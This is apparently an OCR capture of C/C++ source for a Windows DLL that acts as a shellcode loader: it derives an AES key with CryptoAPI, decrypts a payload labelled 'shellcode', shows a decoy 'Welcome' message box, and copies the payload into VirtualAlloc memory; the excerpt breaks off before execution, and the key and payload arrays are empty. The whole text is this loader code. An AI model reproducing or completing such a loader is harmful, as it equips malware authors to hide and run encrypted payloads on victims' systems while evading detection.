 ```
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        printf("Failed in CryptAcquireContextW (%u)\n", GetLastError());
        return;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        printf("Failed in CryptCreateHash (%u)\n", GetLastError());
        return;
    }
    if (!CryptHashData(hHash, (BYTE*)key, keyLen, 0)) {
        printf("Failed in CryptHashData (%u)\n", GetLastError());
        return;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        printf("Failed in CryptDeriveKey (%u)\n", GetLastError());
        return;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)shellcode, &shellcodeLen)) {
        printf("Failed in CryptDecrypt (%u)\n", GetLastError());
        return;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

}

BOOL APIENTRY DLLMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){

    switch (ul_reason_for_call){
    case DLL_PROCESS_ATTACH:
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}

extern "C"{
__declspec(dllexport) BOOL WINAPI HelloWorld(viod){

    MessageBox(NULL, "Welcome", "Security", MB_OK);
    unsigned char AESkey[] = {};
    unsigned char payload[] = {};

    DWORD payload_length = sizeof(payload);

    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    if (!alloc_mem) {
        printf("Failed to Allocate memory (%u)\n", GetLastError());
        return -1;
    }
    
    DecryptAES((char*)payload, payload_length, AESkey, sizeof(AESkey));
    MoveMemory(alloc_mem, payload, sizeof(payload));

    DWORD oldProtect;
```